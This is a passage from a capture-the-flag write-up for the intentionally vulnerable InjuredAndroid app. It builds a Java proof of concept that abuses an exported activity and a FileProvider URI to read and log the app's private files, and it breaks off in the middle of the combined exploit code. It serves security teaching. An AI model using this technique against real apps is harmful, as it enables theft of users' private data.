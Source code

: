 The logic moving the files.

```kotlin

if (intent != null && intent.data != null) {
            copyAssets()
            val data = intent.data

```

So if the intent is not null and the intent.data is not equal to null the files in the assets directory will be copied to `/data/data/b3nac.injuredandroid/files`.

#### Create the proof of concept.

Create the intent.

`Intent intent = new Intent();`

Create the File Provider uri.

`intent.setData(Uri.parse("content://b3nac.injuredandroid.fileprovider/files/test"));`

Grant uri permissions.

`intent.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);`

Set the exported activity class name to call the File Provider.

`intent.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.FlagEighteenActivity");`

Get the result of the uri call.

`startActivityForResult(intent, 0);`

We also need to setup the `onActivityResult` method to print the data from the internal file.

```java

 protected void onActivityResult( int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);
        
        try {
            Log.d("OHNO", IOUtils.toString(Objects.requireNonNull(getContentResolver().openInputStream(Objects.requireNonNull(data.getData())))));
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

```

If we put all that together the proof of concept looks like this!

```java

package b3nacinjured.pocformyohnocontentprovider;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;

import com.google.android.material.floatingactionbutton.FloatingActionButton;
import com.google.android.material.snackbar.Snackbar;

import androidx.appcompat.app.AppCompatActivity;
import androidx.appcompat.widget.Toolbar;

import android.util.Log;
import android.view.View;

import org.apache.commons.io.IOUtils;
```